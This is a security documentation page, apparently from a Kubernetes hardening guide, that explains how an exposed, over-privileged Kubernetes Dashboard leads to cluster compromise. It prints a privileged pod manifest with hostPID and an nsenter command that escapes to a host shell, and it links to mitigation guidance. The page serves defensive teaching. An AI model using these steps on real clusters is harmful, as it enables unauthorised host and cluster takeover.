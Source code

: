 ```yaml
---
sidebar_position: 3
title: "Exposed Kubernetes Dashboard"
description: "How an exposed and over-privileged Kubernetes Dashboard can become an entry point for full cluster compromise."
---
```


# Exposed Kubernetes Dashboard

The Kubernetes Dashboard is a web-based interface for managing cluster resources and workloads. While helpful for development and debugging, an exposed and misconfigured Dashboard can allow attackers to gain administrative control over the entire cluster.

This article explores how multiple misconfigurations can align to turn the Dashboard into a critical attack vector.

---

## Exploitation Steps: Full Cluster Compromise via Dashboard

### 1. Discover the Exposed Dashboard

The attacker scans for publicly accessible services and identifies the Kubernetes Dashboard exposed over HTTP or via a misconfigured Ingress or LoadBalancer:

```
http://<public-ip>:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/
```

If no authentication is required, the attacker gains direct access to the Dashboard UI.

### 2. Enumerate Available Capabilities

Within the Dashboard, the attacker checks whether they can:

- View secrets, namespaces, pods, and deployments
- Create new pods or services
- Execute commands in running containers

If the Dashboard is bound to a service account with `cluster-admin` privileges, all of these actions will be permitted.

### 3. Deploy a Privileged Pod

The attacker uses the Dashboard UI to create a pod with elevated access:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwned
spec:
  containers:
    - name: shell
      image: alpine
      command: ["/bin/sh"]
      args: ["-c", "sleep infinity"]
      securityContext:
        privileged: true
  hostPID: true
  restartPolicy: Never
```

This pod runs in privileged mode with access to the host’s process namespace.

### 4. Escape the Container and Access the Host

Using the Dashboard’s Exec feature, the attacker enters the container and runs:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

If successful, the attacker bypasses the container boundary and gains a shell on the underlying host node.

---

### Result

An attacker can:

- Interact directly with all Kubernetes resources using the Dashboard
- Deploy privileged containers to bypass isolation
- Escalate privileges to the host
- Exfiltrate data or disrupt workloads
- Fully compromise the cluster

This attack relies on a combination of insecure defaults, missing access controls, and excessive service account privileges.

---

## Mitigation

➡ [Exposed Dashboard Mitigation](/docs/best_practices/cluster_setup_and_hardening/network_security/exposed_dashboard_mitigation)

